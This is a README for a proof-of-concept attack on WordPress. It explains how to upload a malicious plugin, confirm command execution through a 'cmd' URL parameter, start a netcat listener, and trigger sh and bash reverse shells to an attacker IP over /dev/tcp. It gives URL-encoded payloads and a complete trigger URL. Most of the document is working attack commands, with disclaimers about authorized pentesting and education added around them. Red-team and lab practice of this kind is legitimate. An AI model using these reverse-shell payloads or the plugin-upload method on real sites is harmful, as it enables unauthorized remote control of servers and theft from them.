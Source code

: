 # 🐚 Shell Plugin PoC — Remote Command Execution via WordPress Plugin

> **⚠️ DISCLAIMER:**  
> This project is for educational and authorized penetration testing purposes **only**. Do not deploy or use without proper consent. Unauthorized use may violate laws and terms of service.

* * *

## 📁 Plugin Creation Steps

```bash
# Create plugin directory
mkdir malicious_shell_plugin/
cd malicious_shell_plugin/

# Create the plugin file
sudo nano malicious-plugin.php
```

**Insert your plugin payload into `malicious-plugin.php`.**

Then:

```bash
# Make the plugin executable (optional for PoC)
cd ..
sudo chmod +x malicious-plugin.php

# Zip the plugin for upload or transfer
zip -r shell_plugin.zip malicious_shell_plugin/
```

* * *

## 📂 Plugin Deployment

Once the plugin is uploaded and activated via the WordPress admin panel (or directly dropped into the `/wp-content/plugins/` directory), verify its presence:

```
http://1337.codes/wp-content/plugins/shell_plugin/
```

* * *

## 🧪 Proof of Concept (Command Execution)

Execute a test command to verify RCE:

```
http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=id
```

* * *

## 📡 Setting Up a Listener

On your **attacking machine**, set up a listener:

```bash
nc -lvnp 4444
```

* * *

## 🌀 Reverse Shell Payloads

Pick your desired shell from [RevShells](https://www.revshells.com/). Example (encoded for URL use):

### 🐚 `sh` Reverse Shell

```text
sh -i >& /dev/tcp/192.168.45.201/4444 0>&1
```

URL-encoded:

```
sh%20-i%20%3E%26%20/dev/tcp/192.168.45.201/4444%200%3E%261
```

### 💥 `bash` Reverse Shell

```text
bash -c "sh -i >& /dev/tcp/192.168.45.201/4444 0>&1"
```

URL-encoded:

```
bash%20-c%20"sh%20-i%20%3E%26%20/dev/tcp/192.168.45.201/4444%200%3E%261"
```

Trigger it via browser:

```
http://1337.codes/wp-content/plugins/shell_plugin/malicious-plugin.php?cmd=bash%20-c%20"sh%20-i%20%3E%26%20/dev/tcp/192.168.45.201/4444%200%3E%261"
```

* * *

## 🔒 Ethical Usage Reminder

This PoC is built for **red teaming, pentesting labs, and cybersecurity education**. Use responsibly and within authorized environments only.

* * *

## 🛠 Tools Used

- Netcat (`nc`)
- Custom WordPress plugin
- RevShells.com
- Linux CLI

* * *

## 🧠 About

This plugin demonstrates how weak input validation in custom plugins can lead to **Remote Code Execution (RCE)** on WordPress installations. Always validate inputs, sanitize user input, and follow least privilege principles.

